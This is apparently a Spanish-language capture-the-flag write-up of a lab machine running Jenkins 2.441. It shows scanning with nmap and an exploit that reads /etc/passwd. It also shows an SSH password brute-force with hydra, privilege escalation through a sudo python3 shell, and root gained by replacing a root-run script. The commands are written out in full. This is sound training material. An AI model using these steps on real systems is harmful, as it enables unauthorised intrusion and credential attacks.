







# Máquina secretjenkins

Empezamos viendo puertos y servicions abiertos con nmap:

```shell
nmap -p- --open -sCV --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
```

Vemos solo 8080 y 22, asi que entro al 8080 desde el navegador



Me encuntro un Jenkins, con `whatweb 172.17.0.2:8080` miro que version de este está usando



Sabiendo que es la versión 2.441, busco por exploits con `searchsploit Jenkins 2.441`


Encuentro que puedo leer archivos asi que con `searchsploit -m java/webapps/51993.py` lo descargo y lo ejecuto para leer `/etc/passwd`

```sh
python 51993.py -u http://172.17.0.2:8080 -p /etc/passwd
```



Veo 2 usuarios; bobby y pinguinito. Asi que les hago un bruteforce por ssh con hydra:

```shell
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 32 -I
```



Con esto, estamos dentro de la máquina como bobby, empiezo mirando binarios con `sudo -l` 



Ejecuto el siguiente comando de python como pinguinato para abrir un bash como este

```shell
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("bash")'
```

Vuelvo ha hacer `sudo -l` y veo que puedo ejecutar un script de python en /opt como root 



No puedo editar el script pero puedo eliminarlo y crear otro con el mismo nombre, dentro pongo para que me abra una bash y lo ejecuto como root



Y somos root :)
